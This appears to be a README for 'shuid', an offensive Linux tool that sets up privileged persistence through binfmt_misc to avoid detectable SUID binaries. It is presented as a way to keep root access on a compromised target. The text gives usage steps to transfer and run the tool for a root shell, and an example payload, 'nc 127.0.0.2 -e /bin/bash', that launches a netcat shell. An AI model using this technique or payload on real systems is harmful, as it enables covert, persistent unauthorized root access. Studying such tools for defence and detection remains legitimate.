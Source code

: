<div align=center>
<img src=./29FE64AD-A0EF-4A23-8FD3-D646071A74C8.png>
<pre><code><strong>Privileged persistence without using noisy and detectable SUID using <i>binfmt</i> </strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home 🏡 <sup>(persistence)</sup>

* First transfer `shuid` on target
* Run it!<br><pre><code>./shuid</code></pre>

And that's all, **root shell** is obtained and process to obtain it again will be outputted 


##### More granular

You can choose which SUID will trigger your payload (`-c`). And, obviously, you can also custom the payload (`--payload`).
An example:
```shell
./shuid -c --command "nc 127.0.0.2 -e /bin/bash"
```


## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and <a href= https://www.hackthebox.com/home/users/profile/590762>uco2KFH</a> 
</sup>
</div>

